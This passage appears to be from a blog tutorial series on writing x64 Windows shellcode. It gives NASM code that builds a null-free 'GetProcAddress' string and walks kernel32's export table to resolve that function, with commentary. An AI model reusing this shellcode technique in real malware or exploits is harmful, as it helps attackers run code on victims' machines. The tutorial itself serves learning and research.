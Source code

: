 ```nasm
mov rax, 0x9090737365726464         ; 'ddress'
shl rax, 0x10                       ; 7373657264640000
shr rax, 0x10                       ; 0000737365726464 terminate our string w/ no nulls present in our shellcode!
push rax
mov rax, 0x41636F7250746547         ; 'GetProcA '
push rax
mov rax, rsp
```

I'd say at least this portion of our code today should look familiar to you 😺  It doesn't change too much since we'll always be walking the PE export table to find our functions.  The only extra line of code I added is the **GetProcAddress** string being pushed to the stack for referencing in our function name lookup loop in the next section of code.

***Function Name Lookup***
-

```nasm
findfunction:                       ; Loop over Export Address Table to find WinApi names
    jecxz FunctionNameNotFound      ; Loop around this function until we find WinExec
    xor ebx,ebx                     ; Zero EBX for use
    mov ebx, [r11+rcx*4]            ; EBX = RVA for first AddressOfName
    add rbx, r8                     ; RBX = Function name VMA / add kernel32 base address to RVA and get WinApi name
    dec rcx                         ; Decrement our loop by one, this goes from Z to A
    ; Load first 8 bytes of "GetProcA"
    mov r9, qword [rax]             ; R9 = "GetProcA"
    cmp [rbx], r9                   ; Compare first 8 bytes
    jnz findfunction                ; If not equal, continue loop
    ; Check next part for "ddress" (4 bytes)
    mov r9d, dword [rax + 8]        ; R9 = "ddress"
    cmp [rbx + 8], r9d              ; Compare remaining part
    jz FunctionNameFound            ; If match, function found
	jnz findfunction
FunctionNameNotFound:
    int3
FunctionNameFound:
    push rcx
    pop r15                         ; GetProcAddress position in Function Names
    inc r15   
    xor r11, r11
    mov r11d, [rdx+0x1c]            ; AddressOfFunctions RVA
    add r11, r8                     ; AddressOfFunctions VMA in R11. Kernel32+RVA for addressoffunctions
    mov eax, [r11+r15*4]            ; Get the function RVA.
    add rax, r8                     ; Found the GetProcAddress WinApi!!!
    push rax                        ; push GetProcAddress temporarily to be used by next segment
```

I really should have explained this section better in the earlier posts in this series.  Well, better late than never 😆  What we're doing here is taking `RCX`, which is the total function count, and decrementing that value until we find our function in question: **GetProcAddress**
